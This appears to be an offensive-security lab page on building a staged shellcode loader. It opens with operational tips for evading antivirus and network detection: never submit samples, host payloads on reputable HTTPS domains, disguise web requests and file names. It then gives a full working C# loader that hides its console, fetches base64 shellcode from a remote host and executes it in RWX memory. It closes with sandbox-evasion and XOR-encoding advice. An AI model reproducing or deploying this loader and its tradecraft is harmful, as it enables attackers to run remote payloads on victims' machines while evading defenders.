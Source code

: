 # Lab - Staged Loader
<style>
r { color: Red }
o { color: Orange }
g { color: Green }
</style>

> ***IMPORTANT*** : Please do not send submit samples to <r>Virus Total</r> or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training.
> **Make sure at all times that sample submussion in Microsoft Defender is `turned off`, and if for some reason you get prompted to submit a sample, deny the request.**


> ***BEST PRACRICES***:
> By removing the payload from our loader, there is no malicious code that *static analysis* can detect. ***HOWEVER***, by shifting the code from being hardcoded into the loader to external server, it provides more IOC's for dynamic/behavioural analysis. Therefore make sure that:
> 1. Host your payload on a reputable server (onedrive, Dropbox, Akamai etc...)
> 2. Use an FQDN, not an IP address (i.e. key.crimsoncore.be instead of 192.168.100.25)
> 3. Use HTTPS to download the shellcode - the shellcode never touches disk, it gets loaded into the buffer of a program, but we want to evade network based detections
> 4. make the webrequest look legit (user agent, headers etc...)
> 4. Use a name for the shellcode that looks normal (i.e. not shellcode.bin but update.dat for example)

Advantages : Easy to change shellcodes (as they're hosted), harder to detect by static analysis.



```csharp
using System;
using System.Runtime.InteropServices;
using System.Net;

namespace ShellcodePayload
{
    class Payload
    {
        [DllImport("kernel32.dll")]
        private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32.dll")]
        private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

        [DllImport("kernel32.dll")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        [DllImport("user32.dll")]
        private static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);

        [DllImport("kernel32.dll")]
        private static extern IntPtr GetConsoleWindow();

        const int SW_HIDE = 0;

        static void Main()
        {
            var handle = GetConsoleWindow();
            ShowWindow(handle, SW_HIDE);

            string payloadUrl = "http://10.0.0.6:9090/demon.sc.x64.b64";
            byte[] shellCode;

            using (WebClient client = new WebClient())
            {
                // Add HTTP headers    
                client.Headers.Add("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36");
                client.Headers.Add("Accept", "application/octet-stream");
                client.Headers.Add("Accept-Encoding", "gzip, deflate");
                client.Headers.Add("Accept-Language", "en-US,en;q=0.9");
                client.Headers.Add("Referer", "https://www.contoso.com/support/downloads/latest-updates");
                // Download the Base64-encoded string
                string base64String = client.DownloadString(payloadUrl);
                // Decode the Base64 string to bytes
                shellCode = Convert.FromBase64String(base64String);
            }

            UInt32 MEM_COMMIT = 0x1000;
            UInt32 PAGE_EXECUTE_READWRITE = 0x40;
            IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (UInt32)shellCode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

            Marshal.Copy(shellCode, 0, funcAddr, shellCode.Length);

            UInt32 threadId = 0;
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, funcAddr, IntPtr.Zero, 0, ref threadId);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

> IMPORTANT: When adding sandbox evasion modules, make sure they do their checks first before execution any other code. Stay away from AES, RC encryption as this is easily detected - use XOR-encoding instead
>
> <https://github.com/nullsection/SharpETW-Patch/blob/main/PatchInMemory.cs>